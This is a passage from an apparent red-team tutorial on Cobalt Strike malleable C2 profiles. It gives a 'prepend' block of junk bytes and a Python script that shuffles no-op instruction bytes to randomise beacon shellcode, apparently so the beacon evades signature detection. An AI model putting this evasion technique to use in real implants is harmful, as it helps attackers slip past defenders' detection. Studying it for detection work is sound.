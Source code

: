 Pick a unique combination (by shuffling the instructions or by adding/removing them) and lastly, convert it to \x format to make it compatible with the profile. In this case, we took the instruction list as it is, so the final junky shellcode will look like the following when converted to the proper format:

```
transform-x64 {
        ...
        prepend "\x44\x40\x4B\x43\x4C\x48\x90\x66\x90\x0F\x1F\x00\x66\x0F\x1F\x04\x00\x0F\x1F\x04\x00\x0F\x1F\x00\x0F\x1F\x00";
        ...
}
```

We took this a step further by automating the whole process with a simple [python script](https://github.com/WKL-Sec/Malleable-CS-Profiles/blob/main/prepend.py). The code will generate a random junk shellcode that you can use on the prepend option:

```python
import random

# Define the byte strings to shuffle
byte_strings = ["40", "41", "42", "6690", "40", "43", "44", "45", "46", "47", "48", "49", "", "4c", "90", "0f1f00", "660f1f0400", "0f1f0400", "0f1f00", "0f1f00", "87db", "87c9", "87d2", "6687db", "6687c9", "6687d2"]

# Shuffle the byte strings
random.shuffle(byte_strings)

# Create a new list to store the formatted bytes
formatted_bytes = []

# Loop through each byte string in the shuffled list
for byte_string in byte_strings:
    # Check if the byte string has more than 2 characters
    if len(byte_string) > 2:
        # Split the byte string into chunks of two characters
        byte_list = [byte_string[i:i+2] for i in range(0, len(byte_string), 2)]
        # Add \x prefix to each byte and join them
        formatted_bytes.append(''.join([f'\\x{byte}' for byte in byte_list]))
    else:
        # Add \x prefix to the single byte
        formatted_bytes.append(f'\\x{byte_string}')
        
# Join the formatted bytes into a single string
formatted_string = ''.join(formatted_bytes)

# Print the formatted byte string
print(formatted_string)
```

When generating the raw shellcode again with the changed profile, you will notice the prepended bytes (all the bytes before MZ header):
